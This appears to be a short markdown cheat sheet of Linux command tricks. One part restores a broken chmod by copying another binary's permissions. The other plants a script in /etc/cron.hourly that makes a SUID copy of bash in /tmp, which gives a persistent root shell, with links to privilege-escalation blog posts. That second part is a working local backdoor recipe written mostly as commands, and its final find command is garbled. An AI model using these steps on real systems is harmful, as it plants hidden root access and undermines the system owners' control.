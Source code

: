 # Intro

## Restore file permissions

* Find a file that has the required permisison
* Copy the exact file with permissions
* Find a file that has the required content e.g. chmod
* Copy the file content *without* permissions e.g. cat, dd

Example

```bash
chmod +x ./runme.py
bash: permission denied: chmod

ls -l ls
-rwxr-xr-x 1 root root 147176 Sep 24  2020 /usr/bin/ls

cp ls chmodfix
cat /usr/bin/chmod > chmodfix

ls -l chmodfix
-rwxr-xr-x 1 root root 64448 Sep 24  2020 chmodfix

./chmodfix +x ./runme.py
sudo ./chmodfix +x chmod
```

## Restore root shell using self-created SUID binary

* Create a script that copies /bin/bash and run chmod +xs on the copy
* Make the script executeable
* Copy into cron.hourly job
* Use find to execute created root shell
* from <https://medium.com/go-cyber/linux-privilege-escalation-with-suid-files-6119d73bc620>
* from <https://www.prplbx.com/resources/blog/linux-privilege-escalation-with-path-variable-suid-bit/>
* from <https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/>

```bash
cat > root_access
#!/bin/sh
cp /bin/bash /tmp/root_access
chmod +xs /tmp/root_access
CTRL+D

chmod +x root_access
cp root_access /etc/cron.hourly

# wait an 1 hour

/tmp/root_access -p
whoami
root
find root_access -e -exec “/bin/bash” -p \;
```
